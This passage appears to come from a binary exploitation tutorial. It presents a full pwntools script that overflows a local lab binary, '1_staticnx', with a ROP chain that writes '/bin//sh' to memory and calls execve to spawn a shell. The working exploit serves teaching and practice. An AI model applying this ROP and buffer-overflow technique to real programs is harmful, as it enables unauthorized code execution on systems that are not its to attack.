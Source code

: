 Integrating the generated code is as easy as copy and pasting into the [final
exploit][4].


```python
#!/usr/bin/python

from pwn import *

from struct import pack

# Padding goes here
rop = ''

rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee060) # @ .data
rop += pack('<I', 0x080bbb46) # pop eax ; ret
rop += '/bin'
rop += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee064) # @ .data + 4
rop += pack('<I', 0x080bbb46) # pop eax ; ret
rop += '//sh'
rop += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee068) # @ .data + 8
rop += pack('<I', 0x080493e3) # xor eax, eax ; ret
rop += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
rop += pack('<I', 0x080481d1) # pop ebx ; ret
rop += pack('<I', 0x080ee060) # @ .data
rop += pack('<I', 0x080e2fc9) # pop ecx ; ret
rop += pack('<I', 0x080ee068) # @ .data + 8
rop += pack('<I', 0x0807299a) # pop edx ; ret
rop += pack('<I', 0x080ee068) # @ .data + 8
rop += pack('<I', 0x080493e3) # xor eax, eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x0807e1df) # inc eax ; ret
rop += pack('<I', 0x08070605) # int 0x80

def main():
    # Start the process
    p = process("../build/1_staticnx")

    # Craft the payload
    payload = "A"*148 + rop
    payload = payload.ljust(1000, "\x00")

    # Send the payload
    p.send(payload)

    # Transfer interaction to the user
    p.interactive()

if __name__ == '__main__':
    main()
```

[1]: ./src/1_staticnx.c
[2]: ./build/1_staticnx
[3]: ./scripts/1_skeleton.py
[4]: ./scripts/2_ropexploit.py
[5]: ./scripts/3_brokenrop.py
[6]: http://syscalls.kernelgrok.com/